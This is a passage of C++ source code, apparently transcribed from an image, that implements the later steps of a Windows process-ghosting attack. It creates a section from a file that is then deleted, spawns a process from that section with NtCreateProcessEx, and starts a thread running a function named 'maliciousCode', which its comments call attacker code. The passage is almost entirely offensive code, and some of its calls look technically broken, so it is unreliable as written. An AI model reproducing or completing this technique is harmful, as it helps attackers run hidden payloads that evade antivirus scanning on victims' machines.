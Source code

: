 ```

        std::cerr << "Failed to create section." << std::endl;

        CloseHandle(hFile);

        return 1;

    }

    // Step 5: Close the file handle, causing the file to be deleted but the section remains

    CloseHandle(hFile);

    // Step 6: Create a new process from the section object

    HANDLE hProcess;

    if (NtCreateProcessEx(&hProcess, PROCESS_ALL_ACCESS, NULL, NtCurrentProcess(), FALSE, hSection, NULL, NULL, FALSE) != STATUS_SUCCESS) {

        std::cerr << "Failed to create process from section." << std::endl;

        CloseHandle(hSection);

        return 1;

    }

    // Step 7: Create a thread to execute the attacker code

    HANDLE hThread;

    if (NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)maliciousCode, NULL, FALSE, 0, 0, 0, NULL) != STATUS_SUCCESS) {

        std::cerr << "Failed to create thread." << std::endl;

        CloseHandle(hProcess);

        CloseHandle(hSection);

        return 1;

    }

    // Cleanup

    CloseHandle(hThread);

    CloseHandle(hProcess);

    CloseHandle(hSection);

    return 0;

}
```
